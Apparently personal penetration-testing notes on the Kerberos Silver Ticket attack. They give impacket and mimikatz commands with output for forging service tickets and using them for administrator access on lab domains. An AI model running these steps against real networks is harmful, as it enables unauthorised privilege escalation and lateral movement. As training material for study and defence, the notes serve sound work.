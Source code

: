 ```yaml
---
description: >-
  Silver Ticket Attack
title: Silver Ticket Attack              # Add title here
date: 2023-01-22 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, silver ticket]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Ticketer
To generate a Silver ticket we need 3 resources:
- NTLM Hash 
- DC SID
- SPN

### Getting NTLM Hash
> To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.
{: .prompt-danger }

If we don't have the NTLM Hash but we have the password we can generate the hash with this tool: [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator)
![Getting-NTLM-Hash](/assets/img/Pasted-image-20230122000844.png)

### Extracting DC SID
To create the ticket, we first need the obtain the so-called _Security Identifier_ or _SID_ of the domain. A SID is an unique name for any object in Active Directory and has the following structure:
```text
S-1-5-21-2536614405-3629634762-1218571035-1116
```
Within this structure, the SID begins with a literal "S" to identify the string as a SID, followed by a _revision level_ (usually set to "1"), an _identifier-authority_ value (often "5" within AD) and one or more _subauthority_ values.

We can use the following command:
```bash
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser Administrator
```
Also if we compromised a machine already we can easily obtain the SID of our current user with the whoami /user command and then extract the domain SID part from it. Let's try to do this on our Windows 10 client:
```powershell
C:\>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```

### Getting the SPN
(-k option is needed only if NTLM authentication is disabled)
```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local
```

### Generating the Silver Ticket:
#### impacket-ticketer
We can craft a ticket as follows:
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local Administrator -domain scrm.local
```
Examples:
[Intelligence](https://shuciran.github.io/posts/Outdated/#fnref:silver-ticket)
#### impacket-getST
Another option is to craft it with this impacket tool:
```bash
sudo impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :fca9edf1c9fb8f031dfc38d918279642
```
Examples:
[Intelligence](https://shuciran.github.io/posts/Outdated/#fnref:silver-ticket-impacket-getst)

### Using ticket with any impacket utility
#### impacket-mssqlclient
We can export the Administrator.ccache file generated so we can use it with any impacket utility:
```bash
export KRB5CCNAME=Administrator.ccache
```
As shown below:
```bash
impacket-mssqlclient dc1.scrm.local -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```
Examples:
[[Scramble#^ac1e1e]]

#### impacket-wmiexec
Then we can execute the `impacket-wmiexec` to access the machine:
```bash
export KRB5CCNAME=Administrator.ccache
impacket-wmiexec -k -no-pass dc.intelligence.htb
C:\>whoami
intelligence\administrator
```

Resources:
[SilverTicket Explanation S4vitar Minuto 1:20:00](https://www.youtube.com/watch?v=osmFGqnFe8c&ab_channel=S4viOnLive%28BackupDirectosdeTwitch%29):
![Silver-Ticket-Attack](/assets/img/Pasted-image-20230122223446.png)

### Mimikatz
An additional option is to load the silver ticket to memory with mimikatz as follows:
```bash
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
User      : offsec
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: e2b475c11da2a0748290d87aa966c327 - rc4_hmac_nt
Service   : HTTP
Target    : CorpWebServer.corp.com
Lifetime  : 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'offsec @ corp.com' successfully submitted for current session

mimikatz # kerberos::list

[00000000] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
   Server Name       : HTTP/CorpWebServer.corp.com @ corp.com
   Client Name       : offsec @ corp.com
   Flags 40a00000    : pre_authent ; renewable ; forwardable ;
```

Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket. Depending on the type of service, it might also be possible to obtain code execution.